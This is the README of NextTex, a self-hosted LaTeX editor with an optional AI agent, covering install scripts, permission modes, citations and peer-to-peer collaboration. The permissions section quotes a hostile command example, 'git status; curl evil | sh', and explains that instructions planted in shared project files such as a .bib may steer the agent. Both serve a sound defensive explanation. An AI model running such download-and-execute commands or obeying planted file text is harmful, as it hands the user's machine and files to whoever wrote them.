


# NextTex

A LaTeX editor you run yourself, with an **optional** AI agent beside the document.
The agent can write, manage project files, references and much more.
**Caution:** Use AI writing for publications and academic work at your own risk.

If you have used a Jupyter notebook, you already know how NextTex works. You
start it on your own machine, it opens in a browser tab, and your files stay
where they are on disk. Nothing is uploaded anywhere.

Source on the left, the real typeset PDF in the middle, and, if you want one,
an agent on the right that can read and edit the project you are writing. It
is one Python process and a folder of files that stay ordinary LaTeX the whole
time, so the project still compiles from a terminal, or on Overleaf, after you
close the tab. No database, no Docker, no nginx.

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/screenshot-dark.png">
  
</picture>

## Highlights

- **The page follows your typing.** An ordinary edit typesets only the section
  you are in, about a third of a second on a forty-file project.
- **Nothing is ever unsaved.** A keystroke goes into the document as it is
  made and the file follows a moment later, so there is no save to lose, no
  dirty dot, and two windows on one project cannot overwrite each other.
- **Double-click the page to reach the source**, and `⌘↵` to go the other way.
- **Errors explained in English**, with the one to start from named. No model
  involved.
- **Every pause is a version**, kept until you say otherwise, with a trash that
  never empties itself.
- **Four git buttons** for the four commands a paper actually needs.
- **The agent edits the project and asks about everything else**, or approves
  everything if you turn that on, with the record staying honest either way.
- **It cannot invent a citation.** Every reference comes from the publisher's
  own record, by DOI.
- **It remembers the project, not just the conversation**, so you can start a
  fresh chat without teaching it your work again.
- **Fill a bibliography from a folder of papers**, checked against each PDF so
  a wrong DOI is refused rather than added.
- **Reading and writing modes**: double-click a pane header to give it the
  window, and again to get your layout back.
- **The editor is lit on its own terms.** Six pages to choose from,
  matching the interface, the proofing grey, white, warm white, cool white,
  or dark, so a dark shell can hold a white page. The syntax colours, the
  gutter and the text's weight all follow the page rather than the frame.
- **Colour the commands, if you want them coloured.** Off by default, because
  the typeset page two panes away has to stay the loudest thing on screen.
  Turned on, sectioning, environments, mathematics, citations and the
  preamble each take a hue, which is what makes a long chapter skimmable for
  its shape rather than its words.
- **Search and drag in the file list**, with open files following a folder
  that moves.
- **Choose Claude, OpenAI, or no agent at all.** The last is a real option,
  not a degraded one, and the choice can be changed later in the settings
  sheet rather than only when you first sign in.
- **Write it with somebody, without a server.** Share a project and their
  NextTex holds a whole copy of it: you see each other's typing and each
  other's cursors, and anything either of you wrote offline is merged rather
  than fought over when you reconnect.
- **Nothing leaves the machine** except what you asked for. No telemetry.

## Installing

```bash
curl -fsSL https://raw.githubusercontent.com/dakshitha-a/NextTex/master/scripts/install.sh | sh
```

On Windows, in PowerShell:

```powershell
irm https://raw.githubusercontent.com/dakshitha-a/NextTex/master/scripts/install.ps1 | iex
```

`iex` has no way to pass an argument, so if you want to answer something in
advance rather than being asked, build the script block instead:

```powershell
& ([scriptblock]::Create((irm https://raw.githubusercontent.com/dakshitha-a/NextTex/master/scripts/install.ps1))) -Dir 'D:\NextTex'
```

**It asks you two things, and it shows you everything before it asks either
one.**

The first is where to put itself. It offers `~/apps/NextTex`; press return to
take that, or type any empty directory you like. This one has to come first,
because until it has cloned there is nothing to look at yet. If you would
rather not be asked, `--dir=PATH` or the `NEXTTEX_DIR` variable answers in
advance, and an install running somewhere with no terminal just takes the
default. Your own projects live outside this directory and are never touched
by an install, an update or an uninstall.

Then it looks at your machine, all of it, before another word, and tells you
what it found in four groups:

- what is already here,
- what it is going to download, and how big each one is,
- **what you will have to install yourself**, with the command to do it on
  your platform,
- and what is missing but does not matter.

After that comes the plan: a numbered list of what it will do, what the whole
thing will download, roughly how long that takes, and anything it writes
outside this one directory.

That plan is the second question. Press return to accept it, type a number to
change that one item, or `q` to stop. Once it starts working, nothing
interrupts you again.

`git` is the only thing you need beforehand. Python, TeX and the Claude CLI
are all fetched for you if they are missing and you asked for them. If you
would rather read the script before you run it, clone the repository yourself
and run `scripts/install.sh` from inside it. It does the same thing either
way, except that it then installs into the checkout you are standing in
instead of asking where to go.

The first install takes a while, mostly because TeX is a large download. This
is the same bargain as the first time you set up a scientific Python stack:
one slow afternoon, and then it is just there. Every long step shows you how
long it has been running and the last line the tool itself printed, so a slow
mirror looks like a slow mirror rather than a hang. If something does fail,
you get the actual error, the path to the full log, and an installer that
stopped rather than one that carried on and told you it was ready. Run it
again afterwards and it picks up where it left off.

At the end it prints a URL with an access token in it, exactly like the link
`jupyter notebook` gives you. That is how you get in the first time. NextTex
then offers to set a password, and after that any browser signs in with the
password instead. You can skip that, and the URL stays the only way in, which
is fine on a machine only you can reach.

> [!WARNING]
> Anyone who has that URL can read and edit your projects, password or not,
> because it is also the way back in if you forget the password. Treat it like
> a password itself, and do not put NextTex on the open internet.

<details><summary>What the installer actually does</summary>

`scripts/install.sh` and `scripts/install.ps1` are short bootstraps. They do
only what has to happen before any Python is known to exist: refuse a platform
they are not for, check for `git`, ask where the checkout goes, clone it, and
find an interpreter. Any Python 3.10 or newer will do, and if the machine has
none at all they say so and fetch `uv`, which brings its own. Then they hand
over to `python -m nexttex.install`, which is the same code on Linux, macOS
and Windows.

**The survey.** `git`, the Python that is running this and whether it can
make a virtual environment at all (Debian and Ubuntu ship one that cannot,
which used to be the most common way a first install failed); `uv`; whether
`.venv` is already here; a TeX installation wherever TinyTeX, MacTeX, MiKTeX
or TeX Live puts one, and which of `latexmk`, `biber`, `synctex`, `chktex`
and `texcount` are missing from it; `pdftotext`; `claude`; `tailscale`;
Node; whether this machine can start things at login; and whatever
configuration a previous install left. It also opens a two-second connection
to each host it may need, so being offline is something you are told rather
than something you wait three minutes to discover.

**The plan.** A virtual environment and the Python dependencies, with `iroh`
tried separately so a platform it has no build for loses sharing rather than
the install. TinyTeX if you want one, or MiKTeX on Windows, and `tlmgr` to
add whichever of the five tools are missing. A writing agent, if any.
Nothing is installed unless you say Claude, the default is none, and the app
asks again on its first screen. The interface built for this commit,
downloaded rather than built, with Node 20+ used only if that download
fails. Whether the server answers on localhost only or also on your tailnet.
And a `systemd --user` unit on Linux, a launchd agent on macOS, or a logon
task on Windows, written only if you asked for one.

All of it is idempotent. Run it again after installing something it said was
missing and it picks up where it left off without touching your projects.
</details>

## Running it

The installer sets NextTex to start at login, and puts a shortcut on your
desktop. The shortcut opens NextTex in your browser, and starts it first if
nothing is running, so it works whether or not you kept the start-at-login
step. It runs the app rather than storing the address, so it does not go
stale and it holds no copy of your access token. On a machine with no
desktop, which is the usual shape of a Linux box you reach from somewhere
else, the installer says so and skips it. Say no on the plan screen, or pass
`--no-shortcut`, if you would rather not have one.

To control the server by hand:

**Linux**

```bash
systemctl --user start nexttex
systemctl --user stop nexttex
systemctl --user restart nexttex
systemctl --user status nexttex
journalctl --user -u nexttex -f        # follow the log
```

`systemctl --user disable nexttex` stops it starting at login, and `enable`
puts it back.

**macOS**

```bash
launchctl load   ~/Library/LaunchAgents/com.nexttex.server.plist
launchctl unload ~/Library/LaunchAgents/com.nexttex.server.plist
tail -f ~/.local/share/nexttex/server.log
```

**Windows**, in PowerShell:

```powershell
Start-ScheduledTask -TaskName NextTex
Stop-ScheduledTask  -TaskName NextTex
```

Registering that task wants administrator, so on an ordinary account
`scripts\register-task.ps1`, which is what the installer calls for this,
falls back to a shortcut in your Startup folder and says which it used. If it is the shortcut, there is no task to start or stop: run
`.venv\Scripts\python.exe -u server\run.py` to start it, or open the
`nexttex` shortcut itself, and end the `python` process running
`server\run.py` to stop it. `shell:startup` in the Run box opens the folder
the shortcut is in.

Not `pythonw`. It was tried, so that logging in did not leave a black
rectangle on the desktop, and what it also does is discard everything the
server prints: a server that dies on startup dies in complete silence, no
window and no log. The shortcut runs the console interpreter minimised
instead, and writes to `server.log` and `server.err.log` beside the install
log.

**Any platform.** To print the URL and token again, which is the way back in
if you have forgotten the password:

```bash
.venv/bin/python server/run.py --print-url
```

To choose a new password from the machine itself, which also signs every
browser out. Restart NextTex afterwards: a running server read its settings
when it started and is still checking against the old one.

```bash
.venv/bin/python server/run.py --set-password
```

To run it in the foreground instead, which is the quickest way to see why it
will not start:

```bash
.venv/bin/python server/run.py
```

If you installed a second copy with `--instance NAME`, every name above gains
the same suffix: the service is `nexttex-NAME`, its state lives in
`~/.local/share/nexttex-NAME`, and the interface carries a badge so you can
tell the two apart.

## Keeping it up to date

`./scripts/update.sh` pulls, reinstalls, rebuilds and restarts, or
`scripts\update.ps1` on Windows. Your projects live outside this directory and
neither script touches them.

You can also update from the project list. NextTex checks once when that
screen opens and, if the repository is ahead, says so at the foot of the page
with the commit subjects and an Update button. It restarts itself afterwards
and the page comes back on its own.

It is deliberately quiet. Commits that change only documentation or tests are
reported as *"three new commits, none of which change NextTex"*, a grey line
rather than an alert, and a check that cannot reach GitHub says nothing unless
you asked for it.

**Not now** puts the card away without losing it. The foot of the page then
says *"An update is waiting"* with a **Show it** beside it, so you can come back
and update on an afternoon that suits you rather than having to remember. The
card stays away on its own until you ask.

An update that has landed on disk without the server being restarted is its
own case, and the footer says so before it says anything about GitHub:
*"Updated on disk to abc1234. Restart to run it."* The running process
reports the commit it started with, which is the only commit it can honestly
claim; the files are a separate fact and are reported beside it. Without that
pair, an install updated by hand and not restarted reported the new commit,
matched it against the remote and called itself up to date, three times over,
while serving the old code.

Both scripts write to `update.log` beside `install.log`, in
`~/.local/share/nexttex/` on every platform, Windows included. An update is the
operation most likely to leave a machine in a state its owner cannot explain,
so it leaves a record the way the install does. The file is appended to, again
the way `install.log` is, so it holds every update this install has ever run:
the last block is the one you want, and it is the one to send if you are asking
for help.

## Uninstalling

Three things to remove, in this order: the service, the install, and the
state directory. Your projects are in none of them.

**Linux.**

```bash
systemctl --user disable --now nexttex
rm ~/.config/systemd/user/nexttex.service
systemctl --user daemon-reload
rm -rf ~/apps/NextTex ~/.local/share/nexttex
```

**macOS.**

```bash
launchctl unload ~/Library/LaunchAgents/com.nexttex.server.plist
rm ~/Library/LaunchAgents/com.nexttex.server.plist
rm -rf ~/apps/NextTex ~/.local/share/nexttex
```

**Windows**, in PowerShell:

```powershell
Unregister-ScheduledTask -TaskName NextTex -Confirm:$false -ErrorAction SilentlyContinue
Remove-Item "$([Environment]::GetFolderPath('Startup'))\NextTex.lnk" -ErrorAction SilentlyContinue
Remove-Item -Recurse -Force "$HOME\apps\NextTex", "$HOME\.local\share\nexttex"
```

If you installed somewhere else with `NEXTTEX_DIR`, that is the directory to
remove instead. If you installed a second copy with `--instance NAME`, every
name above gains the same suffix (`nexttex-NAME`, `com.nexttex.server-NAME`,
`~/.local/share/nexttex-NAME`) and the copies are independent, so removing
one leaves the others alone.

Everything NextTex fetched for itself is inside the install directory,
including the `uv` it may have downloaded and the Python environment, so
deleting the folder really does remove them. The state directory holds
`config.json`, which holds your token, your password and your list of
projects, so it
goes too.

**What this does not remove**, deliberately:

- **Your projects.** They were never inside the install; the registry held
  paths. Each still has its `.nexttex/` beside it with the version history
  and the trash in it, and deleting that is a separate decision. The section
  above on [a project on disk](#a-project-on-disk) says what is in there.
- **TeX.** TinyTeX at `~/.TinyTeX`, or `~/Library/TinyTeX` on macOS, is
  about 460 MB and is a normal TeX installation that anything else on the
  machine can use. `tlmgr` did not put anything NextTex-specific in it.
- **The Claude CLI**, and whatever account it is signed in to. NextTex never
  held those credentials, so removing NextTex does not sign you out.

One thing worth knowing before you do it on a shared project: the state
directory holds this install's identity as a peer. Remove it and reinstall
and you are a *new* peer to your collaborators, with a different public key,
and somebody will have to invite you back. Your files and their history are
untouched either way. It is the collaborative link that is lost, which is
the same thing that happens when somebody removes you.

## Your first session

About twenty minutes, most of it TinyTeX downloading. Open the URL, choose an
agent or none, and add `examples/minimal-article` as a project. It typesets as
it opens. Type a sentence into the abstract and the page follows about two
seconds later; double-click a paragraph on the page to jump back to the line
that set it. The full walkthrough, with a deliberate error, the version
history and a GitHub backup, is in
[docs/first-session.md](docs/first-session.md).

## How it works

### The page follows your typing

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/pipeline-dark.svg">
  
</picture>

When a document uses `\include`, an ordinary edit typesets only the section
you are in, so the page redraws about two seconds after you stop. A new
citation key or a new label pays for the full run with `biber`, and nothing
else does. A half-finished equation holds the build back for four seconds
rather than reporting an error you already know about.

**And the page goes where you are writing.** When a build you caused lands,
the preview scrolls to the part of the page your caret is on and flashes it,
in whichever view mode you are in. Only when that part is not already in
front of you, so working down a page you are looking at moves nothing, and
only for a build your own typing caused: a rebuild you asked for while
reading, a collaborator's edit, and the agent's edits while you are
mid-sentence all leave the page alone.

<details><summary>The measured numbers</summary>

`bench/thresholds.json` holds a budget for every slow path and `bench/bench.py`
measures against it, on a synthetic project of forty source files, two
megabytes of LaTeX, a populated build directory and a `.git` with a working
tree. They are budgets, not records. The point is to notice the change that
makes typing slower on the day it happens.

| | measured | budget |
|---|---|---|
| Chapter build, as an edit triggers | 330 ms | 4 s |
| Full build with `biber` | 17.7 s | 30 s |
| Full symbol scan | 17.6 ms | 400 ms |
| Symbol lookup, cached | 0.85 ms | 6 ms |
| Opening a project | 94 ms | 400 ms |
| Recording a version | 2.3 ms | 8 ms |
| Rebuilding a transcript | 11.5 ms | 120 ms |
| Project file tree | 2.9 ms | 250 ms |
| A collaborator's edit, applied | 3.1 ms | 40 ms |
| Whole project as a zip | 61 ms | 3 s |
| Interface bundle | 803.4 kB | 860 kB |

The first row is the one worth keeping. The compile rewrites `build/main.pdf`,
the symbol cache's stamp walk used to count it, and every build therefore
threw the index away and rescanned the project, 1.6 seconds after every pause
in typing. If that comes back, the cached lookup goes from about one
millisecond to about twenty.

Two of those are worth a footnote. *Opening a project* is what you wait for
after clicking one in the list: the tree walk, the transcript and the scan
that decides what else could be previewed. All of it used to happen on
the event loop, so for an eighth of a second nobody else's autosave or
collaborator got a turn. And a kilobyte in the last row is 1024 bytes; vite's
own console figure counts it as 1000, so a number read off the build output is
not this measurement and the two should not be compared.

`scripts/check.sh --bench` runs it, and the bundle row alone runs in
`scripts/check.sh --all`, straight after the build that produces it.
</details>

### It tells you what the error means

`chktex` runs while you type, and the LaTeX log is parsed into `file:line`
diagnostics with the right file attribution even inside `\include`d chapters.
Every message is matched against a table of the errors that actually happen,
so the drawer says *Maths outside maths mode* and *put the expression between
dollar signs* rather than `Missing $ inserted`. It also names which error to
start with: LaTeX reports everything after a mistake as a mistake too, and a
writer who starts at the bottom of the list spends the evening fixing
consequences. None of this involves a model.

### Every pause is a version

A version is the sha256 of the file's bytes, stored once and compressed on
your own disk, so going back costs nothing. An editing burst collapses into
one version rather than forty, and old ones thin with age: everything from the
last day, hourly for a week, daily for three months, weekly after that. Some
are never thinned at all, being the ones people come back for: one you named,
one the agent made, and the ones that mark a change of state rather than a
change of text -- a file's first version, a deletion, a restore, an undo or a
redo.

Figures are versioned too, so replacing a plot keeps the one it replaced byte
for byte. A deleted file goes to a trash that never empties itself, because a
trash that clears after thirty days loses the thing you went looking for on
day thirty-one. None of it is git, and none of it needs you to have
committed.

On a shared project the history is shared too, and each version says who
wrote it. Their versions arrive as a list straight away and their contents
are fetched when you open one, because almost nobody opens almost any old
version and downloading a colleague's whole history before your first
keystroke would be the wrong trade. How far back each of you keeps them is
your own business: thinning is a decision about your own disk.

### Four git commands, and the fifth one is a terminal

See what changed, commit it, push it, pull it back on another machine. That is
a paper's whole relationship with git, and each is one button in the rail
footer. A project with no repository is offered one, with a first commit and a
`.gitignore` that already knows about `build/` and `.nexttex/`. With the
GitHub CLI signed in, *Back this up to GitHub* creates the repository, private
by default, and pushes into it; a token you supply goes to your credential
store rather than into the remote URL, so it never turns up in
`git remote -v`. Branching and merging stay in the terminal, where the tools
are better and the mistakes are recoverable.

### The agent edits the project, and asks about everything else

An edit inside the project happens directly and appears in the transcript as a
chip with its diff and an undo. A shell command, or a write outside the
project, produces a card you have to answer first, and the card ignores clicks
for 350 ms so one arriving under a moving cursor cannot be approved on the way
past. *Allow always* is scoped to a command's first word; a command carrying
shell syntax cannot be, since `git status; curl evil | sh` starts with `git`,
so that one is remembered by its exact text and covers nothing else. What you
answer is kept with the project, so a restart does not ask you again.

If that is more asking than you want, the control under the box has three
positions and you choose which one you are in.

**Ask before acting** is the above: a card for every command, every fetch and
every write that leaves the project. It is the only one of the three that is a
complete fence, and it is the default.

**Run the work without asking** is the one most people will want. Commands and
edits run silently, and that includes the piped, chained and redirected
commands that make up nearly everything a build or a data script actually does.
Two things still ask. Writing outside the project, or to a file inside it that
the build itself runs, a `latexmkrc` or a `Makefile`, because approving the
writing is not approving the machinery. And anything that reaches the internet,
because both the address and what is sent to it are chosen from files that may
have come from somebody else. Both of those gain a third answer, *Allow for
this conversation*, so a run that fetches eleven references asks once instead of
eleven times.

It is worth being plain about what that position does not promise. It reads the
command the agent is about to run, not what the command then does, so a script
it starts can write anywhere you can write and reach anything you can reach.
That is not a hole to be closed by a longer list of words; it is what running
somebody's commands means. The first position is the one that asks about all of
it, which is why it is the default and why it is still there.

**Never ask about anything** does what it says, including for a write that
leaves the project. Switching it on takes a second press and a sentence saying
so, because the risk is not really about your own judgement: the agent's
instructions come partly from your project's own files, and those arrive from
templates, from clones and from co-authors, so a sentence in somebody else's
`.bib` file is an instruction it may follow.

Every automatic approval appears in the transcript marked as one, whichever
position you are in, and at the quietest position that record is the only
account of what was done. While the fence is down at all, an **Auto** chip sits
beside the agent's name saying which position it is in, and one click on it
steps back. A fence that is down and says nothing is worse than no fence.

**It says what it is doing, and for how long.** A turn can spend twenty seconds
inside a tool, or a while thinking before it says anything, so the header
carries a live line: *Reading 02_theory.tex*, *Searched the literature*,
*Thinking*, *Writing*, with a count of seconds beside it once one passes three.
When the agent writes itself a list of what it means to do, that list is on
screen and ticks itself off. Every tool call that took more than half a second
says how long it took.

**It remembers the project, not just the conversation.** Tell it that chapter
three is frozen, or which measurements came from a collaborator, and it writes
that down where the next conversation will read it. So you can start a fresh
conversation whenever the current one has wandered, without teaching it your
project again. The memory is a plain file you can correct by hand, shown in
the panel listing what the agent reads.

**A conversation can be ended.** *New conversation* clears the panel and the
model's own recollection, and files the transcript away under a timestamp
rather than deleting it, because it is the record of what an assistant did to
your document. What the project has cost carries over, and so do the
permission rules you have set.

**It learns how you write.** Give it the handbook you have to follow and a
paper you have already written; it reads them once, distils them, and keeps
the result in its instructions from then on.

### It draws a figure from your data, and the first attempt looks right

Point at a dataset in the file list and ask for a plot, or just say which
file and what to plot. The agent reads the data, writes a Python script,
runs it, and puts the figure in your document.

**The script is saved in your project, under `scripts/`.** That is the part
worth caring about. A figure a model drew and threw the script away for is a
figure you cannot change next year when a referee asks for the same plot on
a log axis, so the script is a file in your project with a version history
like any other, and re-drawing is running it again rather than asking again.

**The first attempt is already the right shape for a paper**, which is the
difference between a figure you keep and one you redraw by hand. The first
time it plots, NextTex puts two small files in `scripts/`: a matplotlib
style sheet and a nine-line helper. They set a serif face to match your
document, a 10 pt label to match your body text, two hairline spines instead
of a box, ticks pointing in, no grid, a colour-blind-safe palette, and a
frameless legend. The single most important thing they do is size the figure
to the width it will be printed at, so that a 10 pt label in the script is a
10 pt label on the page. Matplotlib's default is 6.4 inches wide, and
including that at `0.8\linewidth` shrinks every label to about 5 pt, which
is why a default figure is unreadable and why this one is not.

Both files are yours. Open them, change them, and nothing overwrites them
again.

Figures are written as PDF, because a figure in a paper is vector line work
and a PNG of it is resolution-locked the moment it is written. Pass a name
ending in `.png` for the cases where a raster is honestly right, a
micrograph or a heatmap with a million cells.

If a plot needs a package this install does not have, it says which one and
asks. Installing it is your press.

### You can show it something

Paste a screenshot into the box, drop an image on the panel, or pick one.
A referee's marked-up page, a table that has come out wrong, a figure from
somebody else's paper: hand it over rather than describing it. The chip
above the box shows a thumbnail of what is going with the question, so an
image attached to the wrong question is something you notice rather than
something you find out about.

The image is kept inside the project, in `.nexttex/attachments/`, and the
agent reads it from there. Nothing about it goes anywhere your question was
not already going.

### It cannot invent a citation

The agent searches Crossref, OpenAlex or Semantic Scholar and gets back real
DOIs. It adds an entry by DOI, and the BibTeX comes from the publisher's own
record rather than from the model. It can then re-check every entry in your
bibliography against the record it claims to come from. A fabricated reference
is an academic integrity failure, so the defence is structural rather than a
matter of care: there is no path from the model's memory to your `.bib` file.

Both of those are yours without an agent as well, in the Papers section at the
foot of the file list: paste a DOI and *Add*, and the entry arrives from the
publisher with its title, author and year shown so you can check it against
the page in front of you; *Check these against their records* re-reads the
whole bibliography and lists every entry that disagrees with the record it
came from. Neither writes anything the publisher did not say.

### Point it at a folder of papers

`⋯` on your `.bib` file, *Add papers from a folder*, and NextTex walks it,
whether that is a Zotero library or a Downloads folder, finds each paper's DOI
in its own text, fetches that record from the publisher and appends it.
Nothing is added twice, and a PDF whose DOI cannot be found is reported rather
than guessed at.

The safeguard worth knowing about: a DOI printed on page one is sometimes one
the paper *cites*. So the record's title is checked against the paper's own
first pages, and a record that does not describe the paper it was found in is
refused. That check makes importing two hundred papers as trustworthy as
adding one by hand.

This works with no agent at all. **With an agent, the same papers become a
library it can search**, so it can ask what you have already read before going
to the whole literature. What it gets back is labelled as quotation rather
than instruction, because the text came out of files you downloaded.

### Writing it with somebody else

Share a project and you get an invite to send. Whoever opens it gets the
whole project, every file and what those files used to say, into an empty
folder of their own, and from then on the two copies stay in step.

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/collab-dark.svg">
  
</picture>

**Both of you keep a whole copy.** Not a cache of somebody else's: your own
files, your own version history, your own git repository and your own
backups. If the other person's laptop is shut, or yours is, both of you carry
on writing; when you are both back, the two sets of edits are merged rather
than one of them being refused. That is true of an afternoon apart as much as
of a second, and it needs nothing switched on.

The thing keeping in touch is the NextTex on each machine, not the browser
tab. So a collaborator's work arrives while your tab is closed, and a shared
project picks its peers back up when the server starts, so you do not have to
open it first for their afternoon's writing to land.

**You can see where they are.** Their caret sits in your margin in their own
colour and says their name for a moment whenever it moves, and a strip at the
end of the tabs shows who else is in the project, filled in while they are
typing, outlined while they are only there. Their name is on the versions
they wrote, so a month later the history says who changed the paragraph.

**A collaborator is a public key.** There are no accounts, no server in the
middle, and nothing to sign up for: two NextTex installs find each other and
talk directly, encrypted end to end, over a connection made to the other
side's key rather than to an address. An invite is single-use and expires,
and it is a credential, so send it the way you would send a password.

**Nobody owns a shared project**, which has one honest consequence worth
knowing before you rely on it: anyone in it can invite somebody, anyone can
remove anybody, and removing somebody does not take back the copy they
already have. It stops the two of you syncing. It cannot unsend a paper. The
button says so, next to itself.

Two more things that are true and might not be obvious. Each of you keeps
your own `.git`, so committing and pushing are yours alone. Pull between
sessions rather than during one, because a pull replaces a whole file and
will win against a collaborator's untouched paragraphs. And your conversation
with the agent is yours: the writing is shared, the chat is not.

### The page you write on

The editor is lit on its own terms, because the shell and the page are
answering different questions. The frame is chrome and plenty of people want
it out of the way in the dark; the page is the thing being typeset, and a
writer who thinks in paper wants that white whatever the frame is doing. Six
grounds: the interface, the proofing grey, white, warm white, cool
white and dark. The syntax colours, the gutter and the text's weight all
follow the page rather than the frame. Dark type on a bright ground looks
thinner than light type on a dark one, so a light page sets the text a step
heavier on its own; the weight is a control of its own if that lands wrong.

Colouring the commands is off by default, because the typeset page two panes
away has to stay the loudest thing on screen. Turned on, it gives sectioning,
environments, mathematics, citations and the preamble a hue each, which is
what makes a long chapter skimmable for its shape rather than its words.



*A dark shell holding a white page, with colouring switched on. Both are
settings; neither is the default.*

### Panes, and two modes

Double-click the preview's header for a reading mode: everything else folds to
a strip and the typeset page gets the screen. The empty part of the tab strip
does the same for writing, except that it keeps the file list, because you are
still moving between chapters. Double-click again and your layout comes back
exactly as you left it, including what you had already folded away. A single
click on either folds just that pane, as it does on the agent's header.

Right-click the tab you are working in and you can close every other tab,
close the lot, or duplicate the file. A duplicate arrives beside the original
as `chapter (copy).tex` and the file list opens far enough to show you where
it landed; nothing moves out from under you, so the file you were editing is
still the one in front.

The file list has a filter row behind a magnifier: type and the tree narrows
to what matches, through folders you had collapsed, and clearing it gives back
exactly the tree you had. Rows drag onto folders, and a folder takes
everything under it, including open files, which follow it rather than being
left pointing at a name that no longer exists.

## What it is not

**Collaborative between installs, not in a browser.** Everyone who works on a
shared project runs their own NextTex and holds the whole thing: the files,
their history, their own git repository. There are no accounts and no guest
links, and a collaborator is a public key, so there is nobody to sign up with
and nothing in the middle to go down. What there is not: comments,
suggestions, tracked changes, or any notion of who is allowed to do what.
Everybody in a shared project can do everything, including inviting somebody
else and disconnecting somebody else.

**Not a git client**, and not a general-purpose editor.

**Sharing needs a platform iroh builds for**: Linux, Windows, and Macs with
Apple silicon. There is no build for an Intel Mac, so on one of those the
share card says sharing is unavailable and everything else works exactly as
it does anywhere. The installer treats iroh as optional for the same reason:
a missing build costs you the one feature, not the install.

**Windows support is written and only partly verified.** An install has now
been run on Windows and reached the end, which found four things and fixed
them: the `irm ... | iex` line went straight to *"Cannot bind argument to
parameter 'Path'"* because the script had no clone step and `$PSScriptRoot`
was empty; the TinyTeX and Claude CLI installers were both fetched with
`(Invoke-WebRequest).Content` and handed to `Invoke-Expression`, which is a
byte array in PowerShell 7 rather than a string, and the TinyTeX one is a
`.bat` that `Invoke-Expression` could never have run in any case; and
registering the login task failed with *Access is denied* on an account
without administrator.

Since then the whole install after the clone has become the same Python that
Linux and macOS run, so the parts that used to be Windows-only code are now
Windows-only *branches* of code the test suite exercises on every platform,
including the console-encoding fallback that a legacy code page needs. What
that leaves genuinely unproven is smaller than it was again. A Windows
laptop has since run the install end to end, started the server from the
Startup shortcut, opened a project, joined a shared one from this machine
and typed into it, and run `scripts\update.ps1` against a real remote. That
found five more things, all of them fixed: the instance route reported the
commit on disk rather than the one it had loaded, the update did three of
its four steps and exited zero, its dependencies step left a directory of
litter behind every time, it wrote no log, and the README told a Startup
install to start itself with an interpreter that discards every word the
server prints.

Two things are still unproven. The logon *task* branch has never run,
because registering one needs administrator and the accounts this has been
installed on do not have it, and no Intel Mac has run any of it. Signing in to Claude
from the browser needs a
pseudo-terminal, which Windows does not have, so run `claude auth login` in a
terminal once or use an OpenAI key. Reports welcome.

## Requirements

The last column has three states, and the middle one is the one that used to
be missing: **named** means the installer will not fetch it, but it tells you
so on its survey before it asks you anything, with the command for the
platform you are on, so you can install it and run the installer again.

| What | Why | Supplied by the installer? |
|---|---|---|
| `git` | NextTex is a checkout, and stays one so it can update itself | **named** |
| Python 3.10+ | The server | yes, and `uv` brings one if this machine has none |
| Node 20+ | Only to build the interface locally, if the prebuilt one cannot be downloaded | **named** |
| `pdflatex`, `latexmk`, `synctex` | Typesetting and the two-way jump | yes: TinyTeX, or MiKTeX on Windows, if you let it |
| `biber` | biblatex bibliographies | yes, via `tlmgr` |
| `chktex`, `texcount` | Linting and word counts | yes, via `tlmgr` |
| `pdftotext` | Only for reading a folder of papers into your `.bib` | **named**, and it comes with poppler-utils |
| The [Claude CLI](https://claude.ai/download) | Only for the Claude agent | yes, if you choose it, at install time or later from the settings sheet |
| An OpenAI API key | Only for the OpenAI agent | no, you paste it into the app |
| `gh`, signed in | Only for *Back this up to GitHub* | no |
| `tailscale` | Only to reach this install from another machine | **named** |
| iroh | Only to share a project with another writer | yes, with the Python dependencies |

Nothing in the bottom half of that table is needed to write and typeset.

### What it costs to leave running

NextTex is meant to be left switched on, so what it uses while nothing is
happening matters more than what it uses at its peak. Measured on Linux, on
an install configured for Claude, with the thesis-shaped project the
benchmarks use, which is forty source files and two megabytes of LaTeX:

| | |
|---|---|
| Memory, idle | about 90 MB |
